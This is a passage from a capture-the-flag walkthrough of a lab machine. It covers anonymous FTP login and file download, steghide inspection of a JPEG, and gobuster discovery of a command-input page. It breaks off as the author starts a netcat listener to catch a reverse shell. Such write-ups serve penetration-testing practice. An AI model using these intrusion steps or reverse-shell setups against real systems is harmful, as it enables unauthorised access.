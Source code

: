 Bingo, I found a key, so first flag is done.


#### 3. FTP

I access FTP as Anonymous without password, get .jpg file, check it with steghide and extract .txt hidden inside it, however in the end it seems to be a rabbit hole, so do not repeat it :)

```
 ftp 10.10.242.241

Connected to 10.10.242.241.
220 (vsFTPd 3.0.3)
Name (10.10.242.241:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30 14:31 gum_room.jpg
226 Directory send OK.

ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
226 Transfer complete.
208838 bytes received in 0.83 secs (245.2769 kB/s)
ftp> 
```

```
steghide info gum_room.jpg 
"gum_room.jpg":
  format: jpeg
  capacity: 10.9 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "b64.txt":
    size: 2.5 KB
    encrypted: rijndael-128, cbc
    compressed: yes
```                                       



#### 5. Gobuster

In the meantime, I run gobuster which gives me a secret website `/home.php` with a field to type in commands.

Usually, this could be a chance to get a rev shell so I run netcat `sudo nc -lvnp 4444` and afterwards type a oneliner:

